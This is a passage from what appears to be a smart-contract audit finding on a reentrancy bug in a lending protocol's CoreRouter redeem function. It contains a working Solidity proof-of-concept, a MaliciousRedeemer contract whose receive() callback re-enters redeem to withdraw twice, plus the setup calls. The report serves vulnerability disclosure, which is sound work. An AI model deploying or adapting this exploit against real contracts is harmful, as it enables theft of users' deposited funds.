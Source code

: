 Sufficient gas must be available for multiple function calls within single transaction (test shows attacker performs one re-entry):

Token exchange rates must remain stable during attack execution to maintain consistent withdrawal amounts:

These conditions represent standard operating parameters in most lending protocols, making this vulnerability highly exploitable with minimal setup complexity.

### Attack Path

Attacker creates malicious contract with callback capability:
```solidity
pragma solidity 0.8.23;

import {CoreRouter} from "../../src/LayerZero/CoreRouter.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousRedeemer {
    CoreRouter public targetRouter;
    address public targetLToken;
    uint256 public withdrawAmount;
    uint256 public callCounter;
    address public underlyingAsset;

    constructor(address payable _router) {
        targetRouter = CoreRouter(_router);
    }

    function executeExploit(address _lToken, uint256 _amount, address _asset) external {
        targetLToken = _lToken;
        withdrawAmount = _amount;
        underlyingAsset = _asset;
        callCounter = 0;
        // Execute initial redeem with legitimate balance
        CoreRouter(targetRouter).redeem(_amount, payable(_lToken));
    }

    receive() external payable {
        if (callCounter < 1) {
            callCounter++;
            // Re-execute redeem before state updates
            CoreRouter(targetRouter).redeem(withdrawAmount, payable(targetLToken));
        }
    }
}
```

Establishes minimal position by supplying tokens to receive lTokens:
```solidity
IERC20(token).approve(address(coreRouter), exploitAmount);
coreRouter.supply(exploitAmount, token);
```
